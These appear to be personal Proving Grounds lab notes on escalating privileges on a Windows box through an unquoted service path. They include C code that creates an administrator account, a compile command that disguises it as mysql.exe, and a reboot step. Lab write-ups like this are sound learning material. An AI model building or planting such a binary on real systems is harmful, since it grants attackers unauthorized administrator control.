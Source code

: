 ![[PG/Windows/attachments/Pasted image 20250703125018.png]]
- in C:\wampp\www

Construct Potato command to add the apache user to administrator group. 

Oh naur :( 

![[PG/Windows/attachments/Pasted image 20250703125303.png]]

Giving up on potato.

# Check for Unquoted Service Paths

```

```

![[PG/Windows/attachments/Pasted image 20250703134613.png]]

- There are two..

Let's try to exploit the wamp one because that's not a default Windows installation location. 

I can write to this directory

![[PG/Windows/attachments/Pasted image 20250703135416.png]]

So going to add a binary that adds me as an admin.

Compile executable to add an admin user 'cadet' to administrators group 

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user cadet password123! /add");
  i = system ("net localgroup administrators cadet /add");
  
  return 0;
}

```

```
x86_64-w64-mingw32-gcc adduser.c -o mysql.exe
```

Pop it into this folder
![[PG/Windows/attachments/Pasted image 20250703140550.png]]

Then we may have to reboot the box and lose our connection .. 

```
shutdown /r
```
